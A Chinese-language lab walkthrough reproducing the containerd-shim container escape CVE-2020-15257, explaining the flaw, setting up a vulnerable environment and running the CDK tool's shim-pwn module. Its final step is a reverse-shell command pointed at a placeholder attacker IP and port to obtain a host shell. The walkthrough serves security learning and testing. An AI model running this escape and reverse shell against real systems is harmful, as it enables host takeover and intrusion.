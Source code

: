 # Docker容器逃逸漏洞（CVE-2020-15257）

## 场景介绍

Containerd 是一个控制 runC 的守护进程，提供命令行客户端和API，用于在一个机器上管理容器。

在版本1.3.9之前和1.4.0~1.4.2的Containerd中，由于在**网络 模式为host**的情况下，容器与宿主机共享一套 Network namespaces ，此时 containerd-shim API 暴露给了用户，而且访问控制仅仅验证了连接进程的有效UID为0，但没有限制对抽象Unix域套接字的访问，刚好在**默认情况下，容器内部的进程是以root用户启动**的。在两者的共同作用下，容器内部的进程就可以像主机中的containerd一样，连接containerd-shim监听的抽象Unix域套接字，调用containerd-shim提供的各种API，从而实现容器逃逸。

## 环境搭建

漏洞环境准备：

```
./metarget cnv install cve-2020-15257
```

## 漏洞复现

使用以下命令启动容器:

```
sudo docker run -it -–net=host --name=15257 ubuntu /bin/bash
```

在容器内执行命令`cat /proc/net/unix|grep -a "containerd-shim"`，查看结果确认是否可看到抽象命名空间Unix域套接字:

![image-20210618151008778](images/1.png)

在攻击端监听1234端口，然后下载漏洞利用工具cdk（https://github.com/cdk-team/CDK）并将其传入容器/tmp目录下：

```
sudo docker cp cdk_linux_amd64 15257:/tmp
sudo docker exec -it 15257 bash
```

运行工具，执行反弹shell命令,验证得到一个宿主机的shell:

```
cd /tmp
./cdk_linux_amd64 run shim-pwn reverse attacker-ip port
```

## 参考文献

https://mp.weixin.qq.com/s/WmSaLPnG4o4Co1xRiYCOnQ

https://www.cdxy.me/?p=837